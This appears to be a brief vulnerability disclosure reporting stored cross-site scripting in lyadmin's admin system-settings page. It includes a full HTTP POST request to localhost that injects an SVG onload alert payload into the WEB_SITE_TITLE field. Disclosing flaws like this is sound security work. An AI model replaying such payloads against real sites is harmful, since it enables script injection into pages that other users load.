


## lyadmin has xss in adminpage WEB_SITE_TITLE parameter ##

There is a xss vul in lyadmin> adminpage>system settig>WEB\_SITE\_TITLE parameter.

post data:

    POST /admin.php?s=/admin/config/groupsave.html HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:58.0) Gecko/20100101 Firefox/58.0
    Accept: application/json, text/javascript, */*; q=0.01
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Referer: http://localhost/admin.php?s=/admin/config/group.html
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 2792
    Cookie: 2Z9B_ulastactivity=fa49zjMO1jZ9sd2fI26xxyNf4W5EncZkKfBQxO3doMLTd3xhdU4n; bdshare_firstime=1503887429098; UM_distinctid=1605806841810-0a2cbdd15cb31d-4c322e7d-1fa400-160580684193fb;ly_main_nav_limit=15; PHPSESSID=92akfp2p2ibe0v6ad4ia644ms6
    Connection: close
    
    config[WEB_SITE_TITLE]=lyadmin<svg/onload=alert('lyadmin')>

